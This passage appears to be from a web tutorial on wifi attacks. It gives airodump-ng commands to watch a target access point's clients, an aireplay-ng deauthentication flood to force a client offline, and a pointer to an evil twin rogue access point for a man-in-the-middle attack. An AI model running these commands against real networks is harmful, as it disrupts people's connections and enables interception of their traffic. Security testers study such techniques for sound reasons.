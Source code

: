 ```bash
airodump-ng -c $channel --bssid $ap-mac
```

Now again you see the clients connected to the AP listed below
this can be accomplished with the first instance using hotkeys "a" for switching views and "s" for sorting,
try finding an active client where DOS would have the best chance to trigger a reconnection.
### Disconnect the target

```bash
aireplay-ng --deauth 1000 -a $ap-mac -c $client-mac mon0
```

This causes the client to loose connection and probably reconnect manually

Now you can put a rogue AP (see evil twin attack). That way, the client will try to connect to your AP. 
After that you have the possibility to conduct a man-in-the-middle (MITM) attack as long as it is not end-to-end encrypted.

## Make a good action !
---
Hit that `CTRL + D` to bookmark this website 🔖

Internet is for sharing, so please consider sharing this post if you liked it !

It will be so much better than any newsletter #privacy #spam #planet 🌍 ❤️

